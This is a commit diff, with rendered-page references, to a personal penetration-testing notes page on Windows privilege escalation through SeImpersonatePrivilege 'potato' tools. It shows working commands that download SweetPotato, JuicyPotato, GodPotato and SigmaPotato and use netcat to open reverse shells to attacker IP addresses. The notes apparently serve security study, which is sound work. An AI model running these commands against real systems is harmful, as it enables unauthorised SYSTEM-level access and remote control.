

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/WindowsPrivilegeEscalation.md, in a window 1280 px wide and 900 px high, scrolled down 5870 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 6747 px from its top, so only the background shows below that.

Commit message:
added notes after compiling sweet potato

```diff
--- a/markdown/WindowsPrivilegeEscalation.md
+++ b/markdown/WindowsPrivilegeEscalation.md
@@ -251,23 +251,23 @@
 	- Named pipes:
 		- Allow unrelated processes to share data between each other
 		- If we can coerce a a privileged process into connecting to a controlled named pipe, we can capture the authentication and use `SeImpersonatePrivilege` to impersonate the user account and perform operations in their security context
-		- Sigma Potato (PrintSpoofer)
-			- Coerces NT AUTHORITY/SYSTEM into a named pipe
-			- Must be downloaded somehow
-			- Can be used when we have a user with `SeImpersonatePrivilege`
-			- `wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
-			- `.\PrintSpoofer64.exe -i -c powershell.exe`
+			- SweetPotato can be used to reliably exploit this it seems; use the nc reverse shell below
 	- General Potato information:
 		- https://jlajara.gitlab.io/Potatoes_Windows_Privesc
 	- SweetPotato
+		- Apparently just the best potato
 		- https://github.com/CCob/SweetPotato
-			- Precompiled: https://github.com/uknowsec/SweetPotato
-		- Get netcat as well (`/usr/share/windows-resources/binaries/)
+			- Compiled pretty painlessly after cloning the repo in Visual Studio 2022
 		- `.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"` works pretty well
 	- JuicyPotato
 		- https://github.com/ohpe/juicy-potato/releases/tag/v0.1
-		- `C:\Users\Public\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd.exe -a "/c C:\Users\Public\nc.exe 10.10.14.235 4444 -e cmd.exe" -t *`
+		- `C:\Users\Public\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd.exe -a "/c {nc.exe_path} {kali_IP} {kali_port} -e cmd.exe" -t *`
 	- GodPotato
 		- Can use for a reverse shell `GodPotato.exe -cmd "cmd /c reverse.exe"`
 			- `GodPotato.exe -cmd "powershell -e ...."`
 		- Can also use it to create a new administrative user, then rdp/winrm in
+	- Sigma Potato (PrintSpoofer)
+		- Coerces NT AUTHORITY/SYSTEM into a named pipe
+		- Can be used when we have a user with `SeImpersonatePrivilege`
+		- `wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
+		- `.\PrintSpoofer64.exe -i -c powershell.exe`
```
